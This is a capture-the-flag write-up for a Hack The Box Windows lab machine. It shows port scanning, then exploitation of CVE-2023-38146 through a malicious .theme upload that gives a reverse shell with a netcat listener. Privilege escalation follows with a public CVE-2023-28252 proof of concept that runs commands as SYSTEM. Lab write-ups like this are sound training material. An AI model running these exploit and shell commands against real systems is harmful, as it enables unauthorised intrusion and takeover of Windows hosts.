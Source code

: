 ```yaml
---
date: 2025-10-25
categories: [Windows, Medium]
---
```


<img width="300" height="300" alt="Union" src="https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/d7402e63f4067df1dbbe7b143c90d61d.png" />

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ctrlzero](https://app.hackthebox.com/users/168546)    | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---






## Enumeration

- I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.237 -oG scan
	/opt/extractports scan
	nmap -p80 -sCV 10.10.11.237 -oN ports
	```

	<img width="784" height="149" alt="image" src="https://github.com/user-attachments/assets/0018ef06-5ec5-449a-b7a7-c1bcd7a691e9" />

- I list the technologies used on the website using whatweb. I find the domain `aerohub.htb` and add it to the `hosts` file.

	```python
	whatweb http://10.10.11.237
	```

## Exploiting file upload

- When accessing the website, it indicates that we are dealing with a Windows 11 machine, and scrolling down a little, we find a section that allows us to upload .theme files. With this information, when searching for vulnerabilities, I am able to find CVE-2023-38146.

- To exploit this vulnerability, I use the [Jnnshschl](https://github.com/Jnnshschl/CVE-2023-38146) repository. This creates an SMB server, and if we listen on the port we have specified at the same time, we get an interactive shell.
	
	```python
	python3 themebleed.py -r 10.10.14.17 -p 4711   
	
	rlwrap -cAr nc -lvnp 4711
	```

- This way, we are connected to the system as the user sam.emerson and can read the first flag of the system.

## Privilege Escalation

- While exploring the system files, I located a file named CVE-2023-28252_Summary.pdf in the Documents folder of the user sam.emerson.

	<img width="676" height="146" alt="image" src="https://github.com/user-attachments/assets/b76de877-b2b8-482a-a77f-644ab6935f4a" />

- The content refers to this CVE and the steps that must be taken to mitigate this vulnerability.

  <img width="823" height="355" alt="image" src="https://github.com/user-attachments/assets/cb34164e-86e9-4154-84ae-623ddc151bf8" />

- When searching for information about this CVE, I found a [POC](https://github.com/bkstephen/Compiled-PoC-Binary-For-CVE-2023-28252) that allows commands to be executed as the nt authority system user. When uploading this binary to the system and testing it, I saw that the changes to prevent this vulnerability had not yet been applied.

- Thanks to this, I can read the second flag of the system.

	```python
	.\clfs_eop.exe 'type C:\users\administrator\desktop\root.txt'
	```
